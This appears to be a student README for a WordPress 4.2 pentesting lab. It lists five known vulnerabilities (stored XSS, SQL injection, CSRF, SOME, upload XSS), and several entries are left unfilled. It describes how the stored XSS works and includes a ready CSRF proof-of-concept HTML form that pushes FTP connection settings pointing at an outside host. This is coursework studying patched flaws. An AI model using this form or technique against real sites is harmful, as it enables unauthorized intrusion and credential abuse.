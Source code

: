 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Lab Section

* Recreating the XSS exploit:

    <img src='https://i.imgur.com/r6t8YYw.png' />

## Pentesting Report

1. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: https://wpvulndb.com/vulnerabilities/7945.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [x] GIF Walkthrough: <img src='xss.gif' />
  - [x] Steps to recreate: The vulnerability takes place
        when a user posts a comment that is extraordinarily long to bypass the MySQL limit
        of 64 kilobytes. When this happens, it executes code within HTML attributes supplied
        in the comment. When any user loads the page with the comment, the XSS executes.
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-comments-post.php)
1. (Required) wp_untrash_post_comments SQL Injection
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8126.
    - Vulnerability types: SQL Injection
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Filesystem Credentials Dialog CSRF
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8818
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version: 4.2.15
  - [x] GIF Walkthrough:
  - [x] Steps to recreate: Create an HTML file with a hidden submission form

            <html>
                <body>
                    <form action="http://wpdistillery.dev/wp-admin/plugins.php" method="POST">
                        <input type="hidden" name="hostname" value="sumofpwn.nl" />
                        <input type="hidden" name="connection_type" value="ftp" />
                        <input type="hidden" name="password" value="password" />
                        <input type="submit" value="Submit request" />
                    </form>
                </body>
            </html>

  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-admin/includes/file.php)
1. (Optional) Pupload Same Origin Method Execution (SOME)
  - [ ] Summary: https://wpvulndb.com/vulnerabilities/8489
    - Vulnerability types: Same Origin Method Execution (SOME)
    - Tested in version: 4.2
    - Fixed in version: 4.2.8
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) 2.3-4.7.5 - Large File Upload Error XSS
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8819
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2017 Alexander Matson

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

